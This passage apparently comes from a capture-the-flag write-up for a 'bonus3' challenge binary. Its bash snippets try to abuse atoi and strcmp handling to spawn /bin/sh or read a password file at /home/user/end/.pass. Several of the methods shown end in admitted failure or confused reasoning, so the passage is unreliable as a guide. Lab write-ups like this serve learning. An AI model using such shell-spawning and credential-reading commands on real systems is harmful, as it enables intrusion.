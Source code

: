 **Command Variations:**
```bash
# Execute 'sh' command for shell
echo "sh" > /tmp/bonus3
./bonus3 "sh"  # atoi("sh") = 0, buffer1[0] = '\0' → buffer1 = ""

# Execute numeric commands
echo "0" > /tmp/bonus3  
./bonus3 "0"   # strcmp("0", "0") = 0, executes "0"
```

### Method 3: Command Injection with Numeric Prefix
```bash
# Strategy: Use numeric prefix with trailing command
printf "2\nsh" > /tmp/bonus3
./bonus3 "2"

# Execution Flow:  
# 1. atoi("2") returns 2
# 2. buffer1 contains "2\nsh..." 
# 3. buffer1[2] = '\0' makes buffer1 = "2\n" or "2" 
# 4. Comparison may fail, but alternative: use direct shell command
```

### Method 4: Direct Shell Command Execution
```bash
# Strategy: Use shell command as argument and match in file
echo "/bin/sh" > /tmp/bonus3
./bonus3 "/bin/sh"

# Execution Flow:
# 1. atoi("/bin/sh") returns 0 (non-numeric)
# 2. buffer1[0] = '\0' makes buffer1 = ""
# 3. strcmp("", "/bin/sh") fails
# 4. Alternative: Create file with exact match at right position
```

## Advanced Exploitation Techniques

### Precise Index Calculation
```bash
# For command "cat /home/user/end/.pass" (24 characters)
# Need: file content starts with this command
# AND: atoi(argv[1]) = 24 to null-terminate after command

echo "cat /home/user/end/.pass" > /tmp/bonus3
./bonus3 "24"

# Flow:
# 1. atoi("24") = 24
# 2. buffer1[24] = '\0' terminates exactly after command
# 3. buffer1 = "cat /home/user/end/.pass"  
# 4. strcmp("cat /home/user/end/.pass", "24") fails...

# Need different approach: command AS the number
```
